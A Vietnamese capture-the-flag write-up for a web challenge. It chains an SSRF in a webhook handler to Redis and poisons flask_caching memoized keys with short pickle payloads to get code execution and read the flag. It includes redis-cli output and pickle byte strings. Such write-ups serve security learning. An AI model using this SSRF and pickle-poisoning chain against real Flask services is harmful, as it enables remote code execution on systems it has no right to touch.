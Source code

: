 # Your-space

Idea: bài này khai thác dựa vào flask_caching + ssrf đối redis + RCE

Link [này](https://y4y.space/2020/09/14/csawctf-2020-qualification-round-writeup/) là một bài ctf na ná và ở [đây](https://cheatsheet.haax.fr/web-pentest/injections/server-side-injections/ssrf/#redis-exploitation) là cheatsheet để khai thác.

Mình sẽ đi thẳng vào solution luôn, đầu tiên là SSRF ở `notify.py`

```py
def notify_single(url, body):
    c = pycurl.Curl()
    c.setopt(pycurl.URL, url)
    c.setopt(
        pycurl.HTTPHEADER,
        [
            "Accept: application/json",
            "Content-Type: application/json",
        ],
    )
    c.setopt(pycurl.POST, 1)
    c.setopt(pycurl.TIMEOUT_MS, 1000)

    c.setopt(pycurl.READDATA, StringIO(body))
    c.setopt(pycurl.WRITEFUNCTION, len)
    c.setopt(pycurl.POSTFIELDSIZE, len(body))

    c.perform()
```

`url` ta có thể control được từ việc update webhook.

Tiếp theo là ở `space.py`

```py
@space.route("/space/<space_id>")
def view(space_id):
    space = Space.query.get(space_id)
    if space is None:
        return abort(404)
    subscribed = None
    if current_user.is_authenticated:
        subscribed = get_subscription(current_user, space) is not None
    subs = num_subscriptions(space.id)
    return render_template("space.html", subscribed=subscribed, subs=subs, space=space)
```

route này sử dụng một function là `num_subscriptions()` đã được cache với 

```py
@cache.memoize(timeout=60)
def num_subscriptions(space_id):
    return len(Subscription.query.filter_by(space_id=space_id).all())
```

exec vào container của redis, xong đó xem key-value được lưu trữ tại thời điểm function này được cache:
```
PS C:\Users\ASUS> docker exec -it f4 redis-cli
127.0.0.1:6379> keys *
1) "flask_cache_app.routes.space.num_subscriptions_memver"
2) "flask_cache_xk28vUr8TTGcOgNTXzIN9g"
127.0.0.1:6379> get flask_cache_app.routes.space.num_subscriptions_memver
"!\x80\x05\x95\n\x00\x00\x00\x00\x00\x00\x00\x8c\x06XzIN9g\x94."
127.0.0.1:6379> get flask_cache_xk28vUr8TTGcOgNTXzIN9g
"!\x80\x05K\x00."
127.0.0.1:6379>
```

Có thể rút ra một vài điều sau:
1. Giá trị được lưu ở dạng serialized
2. Hai cặp key-value được tạo, ở đây nếu để ý sẽ thấy ở `flask_cache_app.routes.space.num_subscriptions_memver` sẽ lưu giá trị `XzIN9g` và giá trị này cũng chính là phần subfix của `flask_cache_xk28vUr8TTGcOgNTXzIN9g`. Ở key `flask_cache_xk28vUr8TTGcOgNTXzIN9g` lưu giá trị là kết quả của hàm tính tổng số subscriptions, hiện tại đang là 0.
Dạng cache key của nó sẽ như sau khi gọi `@cache.memoize()`:
1. `flask_cache_app.routes.space.num_subscriptions_memver`, chứa giá trị <IDENTIFIER>
2. `flask_cache_<hash><IDENTIFIER>`, giá trị hash này là một const và có thể đọc từ trong source hoặc ở đây ta exec vào container và thấy được chính là `xk28vUr8TTGcOgNT`

Và bởi vì value được lưu ở dạng `"!" + <serialized object>` nên ta có thể khai thác RCE

Các bước khai thác sẽ là
- SET cho giá trị của `flask_cache_app.routes.space.num_subscriptions_memver` thành empty string (cho tiện)
- Lúc này ta cần set giá trị cho `flask_cache_xk28vUr8TTGcOgNT` là dạng serialized của `from app import flag`

Vì đề limit length của webhook là 96 kí tự, nên ở đây có một trick khá hay mình học được từ các thánh trên discord:

```
>>> from pickle import dumps
>>> dumps("", protocol=0)
b'V\np0\n.'
```

`protocol` càng nhỏ thì chuỗi byte cũng sẽ ngắn

đối với `from app import flag` thì có thể tạo một file `app.py`, trong `app.py` gán `flag=""` và cũng tương tự:
```
>>> import pickle
>>> from app import flag
b'capp\nflag\np0\n.'
>>> pickle.dumps("", protocol=0)
b'V\np0\n.'
```

Chạy file `exp.py` trong thư mục `solve` của mình và flag sẽ hiện ra ở `/space/1`